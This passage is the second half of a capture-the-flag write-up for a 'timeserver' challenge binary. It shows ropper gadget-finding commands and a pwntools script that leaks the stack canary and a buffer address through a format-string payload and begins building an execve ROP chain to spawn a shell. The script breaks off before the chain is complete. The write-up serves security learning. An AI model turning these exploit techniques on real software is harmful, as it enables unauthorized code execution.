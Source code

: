 6. Now that we have the correct offsets to leak the data needed to call the syscall execve a payload to buffer overflow and control execution via a ROP chain to satisfy all of the execve requirments from step #4.

7. Since the executeable is not PIE, the binary itself can be used to find ROP gadgets to jump to and execute. This can be done using a tool like Ropper.
```bash
$ ropper --no-color -f ./timeserver > rops.txt
$ grep ": pop ebx; ret;" rop.txt
0x08049022: pop ebx; ret;
```
8. Building out a ROP chain comes down to personal prefrence but the one I choose to create is below.

## Supporting solution info
[//]: <> (Add your full sulution scripts as files if applicable or use this section here to add a code block.)
```python
#!/usr/bin/env python3

from pwn import *
import sys, struct, os

def start():
    elf = context.binary = ELF('../challenge/timeserver')
    gs = '''
    b *main
    b *printf
    continue
    '''

    if args.GDB:
        # context.terminal = ['tmux', 'new-window'] # Uncomment for Tmux
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('localhost', 4444)
    else:
        return process(elf.path)

def exploit():
    # Start the process
    p = start()
    # Print the programs message
    print(p.recv().decode())

    # Set cmd to execve
    p.sendline('L\n/bin/sh\x00')    # Drop to shell
    p.recv()                        # Recv response

    # Send info leak
    p.sendline('AAAA' + '%39$x' + '%32$x')
    # Ruturns "Invalid option: AAAAxxxxxxxxyyyyyyyy" where x's are the canary and y's are buff addr
    leak = p.recv()
    canary = leak[20:28]            # Parse out canary
    buff = leak[28:36]              # Parse out Buffer address

    # Print out the canary and the buffer address
    print('Canary: ' + canary.decode())
    print('Buffer Address: ' + buff.decode())


    # Build payload
    # EAX = 11              - Syscall for execve
    # EBX = /bin/sh\x00     - Filename to exec
    # ECX = 0x00000000      - arguments (argv[])
    # EDX = 0x00000000      - Environmont (envp[])
```

[//]: <> (Give an explination of the code and how to run it here. Make sure to explain the correct output so that anyone following allong can verify that it is running correctly.)
[//]: <> (Add the flag below)